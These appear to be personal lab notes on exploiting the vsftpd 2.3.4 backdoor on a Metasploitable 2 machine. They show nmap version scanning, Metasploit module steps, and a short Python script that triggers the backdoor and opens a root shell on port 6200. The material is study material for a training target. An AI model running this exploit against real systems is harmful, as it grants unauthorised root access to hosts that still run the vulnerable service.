 2025-04-03 23:26

Status:

Tags:

# Exploiting Meta 2

usning VSFTPD  v 2.3.4 

There are different  methods to Exploit
1. manual
2. using Metasploit frame work 
3. python script

method 1 manual
- check for service version using nmap 

	sudo namp 10.10.10.6 -p21 -sV

	21/tcp   open  ftp         vsftpd 2.3.4

Scan port 6200 

nmap -p6200 10.10.10.6

If port 6200 is not open, the exploit likely failed.


 method 2 Using Metasploit
 - msfconsole

- search vsftpd_234_backdoor

- use exploit/unix/ftp/vsftpd_234_backdoor

- set RHOSTS 10.10.10.6

- run
If successful, this will provide a root shell.

method 3 Using  Python Script

from telnetlib import Telnet

host = "10.10.10.6"
portFTP = 21
user = "USER anything:)"
password = "PASS anything"

// Trigger backdoor
tn = Telnet(host, portFTP)
tn.write(user.encode('ascii') + b"\n")
tn.write(password.encode('ascii') + b"\n")

//  Connect to shell on port 6200
tn2 = Telnet(host, 6200)
tn2.interact()


``
python3 exploit.py




### References
